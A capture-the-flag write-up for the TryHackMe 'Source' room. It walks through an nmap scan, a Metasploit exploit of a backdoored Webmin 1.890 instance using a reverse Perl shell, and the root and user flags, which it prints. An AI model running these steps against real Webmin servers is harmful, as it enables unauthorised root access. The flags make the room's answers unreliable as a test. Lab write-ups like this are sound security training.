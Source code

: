 > CTF Challenge Name : Source
CTF Platform : ,TryHackMe,
Author : Karun-A3E


### Recon

Perform a nmap scan to find for open ports and services to exploit 

```
root@ip-10-10-87-208:~# nmap -sC -sV 10.10.173.43 -T4 --min-rate=9400

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-27 05:24 BST
Nmap scan report for ip-10-10-173-43.eu-west-1.compute.internal (10.10.173.43)
Host is up (0.019s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (EdDSA)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 02:3B:4E:71:1D:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.01 seconds
```


### Gaining Access

To gain access and exploit, we can use msfconsole.

After browsing to the website, I found that the device is running webmin. After performing google search, there are some exploit available for it in msfconsole. 

```
msf6 > search webmin

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3  exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4  exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   6  auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   7  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor


Interact with a module by name or index. For example info 7, use 7 or use exploit/linux/http/webmin_backdoor

msf6 > use 7
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_backdoor) > options
```


```
set RHOSTS = <machineIP address> //this is the target machine
set LHOST = <machineIP address> //this is  the attack machine
set SSL true
```
After setting these modules value, we have created a session ;

```
[*] Started reverse TCP handler on 10.10.87.208:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.87.208:4444 -> 10.10.173.43:47628) at 2023-10-27 05:30:31 +0100
```
### Root User

After this we are a root user

```
2023-10-27 05:30:31 +0100

whoami
root
```


With this we can basically get both the user.txt and root.txt

```
find / -type f -name root.txt 2>/dev/null
/root/root.txt
cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
```
Root Flag : THM{UPDATE_YOUR_INSTALL}

```
find / -type f -name user.txt 2>/dev/null
/home/dark/user.txt
cat /home/dark/user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
```
User Flag : THM{SUPPLY_CHAIN_COMPROMISE}


